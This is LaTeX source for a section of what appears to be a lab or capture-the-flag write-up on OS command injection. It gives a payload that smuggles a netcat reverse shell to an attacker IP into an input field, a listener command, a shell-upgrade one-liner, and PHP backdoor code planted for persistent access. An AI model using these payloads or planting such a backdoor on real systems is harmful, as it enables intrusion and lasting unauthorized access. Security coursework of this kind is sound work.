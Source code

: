 \documentclass{article}
\begin{document}
\subsubsection{OS Command Injection}
So far we have tried to run a sleep command to check if the payload works. Now that we know that it does, we can exploit it.
We can get a reverse shell using the command nc <attacker\_ip> <attacker\_port> -e /bin/bash.
In our case, nc 10.0.2.15 4747 -e /bin/bash.

So the full payload, in our case is 127.0.0.1|nc 10.0.2.15 4747 -e /bin/bash.

Before sending this payload, we run on the attacker host the command nc -lvp 4747 to listen for incoming connections.

After the payload is send, we can see a new connection and we have access to the host terminal.
Because the host also has python installed, we can easily turn this into an interactive terminal running the command python -c "import pty; pty.spawn('/bin/bash')"
\ref{fig:inject-code}
\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{Figures/command-injection/inject-code.png}
    \caption{\label{fig:inject-code}The injected code}
\end{figure}

In case this vulnerability gets fixed, we can now install a backdoor into the server so we will still have access to it.
For this, we will insert a php script that gives a reverse shell.\ref{php:backdoor}

\begin{lstlisting}[language=php,caption={Backdoor Code},label=php:backdoor]
    <?php
    exec("nc " . $_GET["server"] . " " . $_GET["port"] . " -e /bin/bash");"
    \end{lstlisting}

And we can write this backdoor using our reversed shell.
\begin{lstlisting}[language=bash,caption={Backdoor Code in bash},label=bash:backdoor]
    echo "<?php
    exec(\"nc \".\$_GET[\"server\"].\" \".\$_GET[\"port\"].\" -e /bin/bash\");"
    \end{lstlisting}
\end{document}

